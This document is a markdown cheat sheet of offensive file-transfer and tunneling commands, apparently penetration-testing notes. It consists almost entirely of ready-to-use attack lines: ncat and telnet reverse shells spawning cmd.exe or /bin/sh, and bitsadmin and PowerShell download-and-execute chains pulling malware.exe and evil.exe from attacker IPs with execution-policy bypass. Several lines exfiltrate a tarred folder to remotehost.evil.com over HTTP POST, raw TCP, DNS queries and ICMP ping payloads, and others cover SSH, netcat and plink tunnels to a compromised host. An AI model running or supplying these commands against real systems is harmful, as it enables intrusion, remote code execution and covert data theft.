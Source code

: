 ## Transfer Files

- [SSH](#ssh)
- [Ncat[(#ncat)
- [NetCat](#netcat)
- [Plink](#plink)
- [Tunneling](#tunneling)
- [BitsAdmin](#bitsadmin)
- [PowerShell](#powershell)
- [FTP](#ftp)
- [POST](#post)
- [Raw TCP](#raw-tcp)
- [Hex](#hex)
- [EBCDIC over Base64](#ebcdic-over-base64)
- [DNS](#dns)
- [ICMP](#icmp)
- [SCP](#scp)
- [TFTP](#tftp)



## SSH

ssh -L 8080:127.0.0.1:80 root@192.168.1.7 # Local Port
ssh -R 8080:127.0.0.1:80 root@192.168.1.7 # Remote Port
ssh -D 127.0.0.1:9050 -N [username]@[ip] # proxychains (command)

tar zcf - localfolder | ssh remotehost.evil.com "cd /path/name; tar zxpf -"

Reverse ssh tunnel from compromised host to Kali using dynamic port forwarding
ssh -f -N 2222:127.0.0.1:22 root@208.68.234.100

## Ncat
ncat --exec cmd.exe --allow 10.0.0.1 -vnl 4444 --ssl
ncat -v 10.0.0.2 4444 --ssl
ncat --allow 10.11.9.125 -vnl 4444 --ssl
ncat 10.11.0.31 4444 --exec cmd.exe --ssl
ncat.exe --exec  cmd.exe --allow 192.168.14.177 -vnl 444 --ssl

## NetCat
mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.5.5.151 80 >backpipe backpipe

Port 80 to 8080
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe Proxy 
nc -lvp 4444; nc -lvp 4445; telnet 192.168.14.177 4444 | /bin/sh | 192.168.15.205 4445 get shell

Is port-forwarding or redirection possible
FPipe.exe -l 80 -r 80 -s 80 $ip 

## Plink

Shovel an RDP session
plink.exe -l root -pw secretpassword 10.11.0.30 -R 3390:127.0.0.1:3389


## Tunneling

ssh -f -N 2222:127.0.0.1:22 root@$ip
ssh -L 8080:127.0.0.1:80 root@$ip
ssh -R 8080:127.0.0.1:80 root@$ip
mknod backpipe p ; nc -l -p 8080 < backpipe | $ip 80 >backpipe
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe
ssh -D 127.0.0.1:9050 -N [username]@[ip]
FPipe.exe -l 80 -r 80 -s 80 $ip
nc -lvp 4444; nc -lvp 4445; telnet $ip 4444 | /bin/sh | $ip 4445


## BitsAdmin 

Download & execute
cmd.exe /c "bitsadmin /transfer myjob /download /priority high hxxp://192.168.14.177/malware.exe c:\malware.exe&start malware.exe"

Start-BitsTransfer -Source c:\clienttestdir\testfile1.txt -Destination https://server01/servertestdir/testfile1.txt
-TransferType Upload -cred (get-credential)

# PowerShell

Download and execute
cmd.exe /c "powershell (new-object system.net.webclient).downloadfile('hxxp://192.168.14.177/malware.exe','malware.exe');(new-object -com shell.application).shellexecute('malware.exe')"

echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "hxxp://192.168.10.5/evil.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ep Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

echo $client = New-Object System.Net.WebClient > script.ps1
echo $targetlocation = "http://192.168.56.102/PsExec.exe" >> script.ps1
echo $client.DownloadFile($targetlocation,"psexec.exe") >> script.ps1
powershell.exe -ExecutionPolicy Bypass -NonInteractive -File script.ps1

## FTP

echo open 10.11.0.30 21> ftp1.txt
echo USER offsec>> ftp1.txt
echo sendit>> ftp1.txt
echo bin>> ftp1.txt
echo GET nc.exe>> ftp1.txt
echo bye>> ftp1.txt
ftp -v -n -s:ftp1.txt

## SSH
tar zcf - localfolder | ssh remotehost.evil.com "cd /path/name; tar zxpf -"

## POST
tar zcf - localfolder | curl -F "data=@-" hxxps://remotehost.evil.com/script.php

## Raw TCP
tar zcf - localfolder >/dev/tcp/remotehost.evil.com/443

## Hex
tar zcf - localfolder | xxd -p >/dev/tcp/remotehost.evil.com/443

## EBCDIC over Base64
tar zcf - localfolder | base 64 | dd conv=ebcdic >/dev/tcp/remotehost.evil.com/443

## DNS
tar zcf - localfolder | xxd -p -c 16 | while read line; do host $line.domain.com remotehost.evil.com; done

## ICMP
tar zcf - localfolder | xxd -p -c 16 | while read line; do ping -p $line -c 1 -q remotehost.evil.com; done

## SCP
scp -r -p /localfolder user@destination:/path/to/folder

## TFTP
tftp -i 10.10.10.10 get nc.exe
